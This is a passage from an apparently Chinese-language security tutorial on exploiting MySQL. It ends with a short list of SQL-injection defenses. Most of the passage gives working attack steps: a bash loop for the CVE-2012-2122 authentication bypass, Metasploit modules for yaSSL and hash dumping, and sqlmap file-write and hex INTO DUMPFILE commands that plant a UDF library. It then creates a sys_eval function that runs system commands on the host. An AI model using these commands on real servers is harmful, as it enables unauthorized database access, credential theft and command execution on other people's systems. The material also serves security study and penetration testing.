| x$ps_schema_table_statistics_io -> table_schema、table_name、count_read | 库名、表名、读取该表的次数                       |

`MySQL`数据库也可以查询表名、库名:
```sql
select table_name from mysql.innodb_table_stats where database_name=database();
select table_name from mysql.innodb_index_stats where database_name=database();
```

# MySQL 漏洞利用与提权
在上文中大致总结了`MySQL`的相关利用知识和相应的`Trick`, 下面讲解一下拿到数据库权限后该如何进行提权操作.
## 权限获取
### 数据库操作权限
提权之前得先拿到高权限的`MySQL`用户才可以, 拿到`MySQL`的用户名和密码的方式不外乎就下面几种方法:
 - `MySQL 3306`端口弱口令爆破.
 - `sqlmap`注入的`--sql-shell`模式.
 - 网站的数据库配置文件中拿到明文密码信息.
 - `CVE-2012-2122`等这类漏洞直接拿到`MySQL`权限.

### Webshell 权限
 - 通过`into oufile`写`shell`.
 - 通过日志文件写`shell`.
 - 通过`Hash`值来获取与解密(存在`SQL`注入`DBA`权限且目标`3306`端口可以访问通).

## MySQL 历史漏洞
### yaSSL 缓冲区溢出
该漏洞可以直接使用`MSF`中的内置`Payload`进行攻击.

```sh
use exploit/windows/mysql/mysql_yassl_hello
use exploit/linux/mysql/mysql_yassl_hello
```

### CVE-2012-2122
[CVE-2012-2122 Detail](https://nvd.nist.gov/vuln/detail/CVE-2012-2122), 可以利用`vulhub`进行该漏洞的复现.

不知道`MySQL`正确密码的情况下, 在`bash`下运行如下命令, 在一定数量尝试后便可成功登录:

```bash
for i in `seq 1 1000`; do mysql -uroot -pwrong -h your-ip -P3306 ; done
```


该漏洞也可以直接使用`MSF`中的内置`Payload`进行攻击, 成功后会直接`DUMP`出`MySQL`的`Hash`值.

```sh
use auxiliary/scanner/mysql/mysql_authbypass_hashdump
set rhosts 127.0.0.1
run
```

## UDF 提权
`UDF`(user defined function), 即用户自定义函数. 是通过添加新函数, 对`MySQL`的功能进行扩充, 就像使用本地`MySQL`函数如`user()`或`concat()`等.

`UDF`提权就是利用创建的自定义函数`sys_eval`(该自定义函数可以执行系统任意命令), 且该`dll`文件需要存放在`MySQL`安装目录的`lib/plugin`目录下(当`MySQL>5.1`时, 该目录默认不存在). 在`MySQL`中调用这个自定义的函数来实现获取对方主机的`system`的`shell`权限, 从而达到提权的目的.

### 动态链接库
`UDF.dll`动态链接库文件可以在常用的工具`sqlmap`和`Metasploit`中找到, 需要注意的是`sqlmap`中自带的动态链接库为了防止被误杀都经过编码处理过, 不能被直接使用, 需要利用其自带的解码工具`cloak.py`来解码使用.

```sh
# 解码 32 位的 Linux 动态链接库
python3 cloak.py -d -i ../../data/udf/mysql/linux/32/lib_mysqludf_sys.so_ -o lib_mysqludf_sys_32.so

# 解码 64 位的 Linux 动态链接库
python3 cloak.py -d -i ../../data/udf/mysql/linux/64/lib_mysqludf_sys.so_ -o lib_mysqludf_sys_64.so

# 解码 32 位的 Windows 动态链接库
python3 cloak.py -d -i ../../data/udf/mysql/windows/32/lib_mysqludf_sys.dll_ -o lib_mysqludf_sys_32.dll

# 解码 64 位的 Windows 动态链接库
python3 cloak.py -d -i ../../data/udf/mysql/windows/64/lib_mysqludf_sys.dll_ -o lib_mysqludf_sys_64.dll
```

<div align=center></div>

<div align=center></div>

### 寻找插件目录
在创建好`UDF`的动态链接库文件后, 需要将其放置到`MySQL`的插件目录下, 查询语句如下:

```sql
show variables like '%compile%';            # 查看主机版本及架构
show variables like 'plugin%';              # 查看 plugin 目录
```

当`plugin`目录不存在时, 可以使用如下命令创建`\lib\plugin`文件夹(根据操作系统):

```sql
select "h3rmesk1t" into dumpfile 'C:\\Tools\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin::$index_allocation';
```

### 写入动态链接库
[相关工具地址](https://github.com/H3rmesk1t/MySQL-UDF/tree/main).

 - `SQL`注入且是高权限, `plugin`目录可写且`secure_file_priv`无限制, `MySQL`插件目录可以被`MySQL`用户写入, 这个时候就可以直接使用`sqlmap`来上传动态链接库, 但是`GET`有字节长度限制, 所以往往`POST`注入才可以执行这种攻击.

```sh
sqlmap -u "http://localhost:9999/" --data="id=1" --file-write="/Users/h3rmesk1t/Desktop/lib_mysqludf_sys_64.so" --file-dest="/usr/lib/mysql/plugin/udf.so"
```

 - 如果没有注入的, 但是可以操作原生`SQL`语句, 这种情况下当`secure_file_priv`无限制的时候, 也是可以手工写文件到`plugin`目录下的.

```sql
# 直接 SELECT 查询十六进制写入
SELECT 0x7f454c4602... INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so';
```

### 创建自定义函数并调用命令
 - 创建函数 sys_eval.

```sql
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.dll';
```

 - 导入成功后查看一下 MySQL 函数里面是否新增了 sys_eval.

```
SELECT * FROM mysql.func;
```

<div align=center></div>

 - 接着通过创建的这个函数来执行系统命令了.

```sql
select sys_eval('whoami');
```

<div align=center></div>

### 删除自定义函数

```sql
drop function sys_eval;
```

<div align=center></div>

# Mysql 注入防御
 - 单引号闭合可控变量, 并进行相应的转义处理.
 - 尽量使用预编译来执行`SQL`语句.
 - 采用白名单机制/完善黑名单.
 - 安装`WAF`防护软件.
 - 拒绝不安全的编码转换, 尽量统一编码.
 - 关闭报错提示.
 - 开启`php`的魔术模式`magic_quotes_gpc = on`, 当一些特殊字符出现在网站前端的时候, 会自动转化成一些其他符号, 从而导致`sql`语句无法执行.
 - 开启网站防火墙, `IIS`防火墙, `apache`防火墙, `nginx`防火墙等, 它们都有内置的过滤`sql`注入的参数, 当用户输入参数`get`、`post`、`cookies`方式提交过来的都会提前检测拦截.
 - ......

<div align=center></div>

# 参考
 - [MySQL 漏洞利用与提权](https://www.sqlsec.com/2020/11/mysql.html#toc-heading-1)
 - [对MYSQL注入相关内容及部分Trick的归类小结](https://xz.aliyun.com/t/7169#toc-35)